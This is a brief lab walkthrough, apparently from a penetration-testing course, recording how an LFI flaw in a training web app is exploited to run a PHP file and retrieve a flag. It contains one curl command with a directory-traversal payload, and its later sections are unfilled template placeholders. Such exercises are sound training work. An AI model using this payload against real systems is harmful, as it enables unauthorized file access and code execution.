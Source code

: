 # Walk: Laboratorio 2 de 3

## Fecha: 19/01/2025
## Host: Uubuntu
## IP: 192.168.244.16

---

## Objetivo
Exploit the LFI vulnerability in the web application "Mountain Desserts" 
on WEB18 (VM #2) (located at http://mountaindesserts.com/meteor/) 
to execute the PHP /opt/admin.bak.php file with Burp or curl. Enter the flag from the output.

---
## Herramientas
1. curl
2. burp
---
## Procedimiento y comandos
1. Paso 1: Obtenemos el flag directamente con curl:
	- **curl -i http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../opt/admin.bak.php**

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

